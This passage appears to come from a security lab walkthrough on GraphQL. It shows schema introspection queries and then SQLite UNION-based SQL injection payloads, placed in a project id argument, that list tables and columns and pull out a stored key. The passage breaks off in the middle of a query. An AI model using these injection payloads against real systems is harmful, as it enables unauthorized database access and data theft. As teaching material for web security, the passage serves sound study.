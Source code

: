     - To get more details:
        
        ```javascript
        query MyQuery {
        __schema {
            types {
            name
            fields {
            name
            } 
            
            }
        }
        }
        ```

    - Using one of these queries, you should get a list of queries that you can run in place of the getprojects used by the application.

        ```javascript
        query Query {
        [NAME] {
            id
        }
        }
        ```

- Injection.
    - Example for SQLite UNION method:

```javascript
// Identify columns
query MyQuery {
  project(id: "1 union SELECT 1,2,3--") {
    id
    name
    description
  }
}


// Get the databases
query MyQuery {
  project(id: "1 union SELECT 1,2,group_concat(tbl_name) FROM sqlite_master  WHERE type='table' and tbl_name NOT like 'sqlite_%'") {
    id
    name
    description
  }
}


// Get the columns
query MyQuery {
  project(id: "1 union SELECT 1,2,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name NOT LIKE 'sqlite_%' AND name ='ptlabiikey'") {
    id
    name
    description
  }
}


// Get the key
query MyQuery {
  project(id: "1 union SELECT 1,2,value FROM ptlabiikey") {
```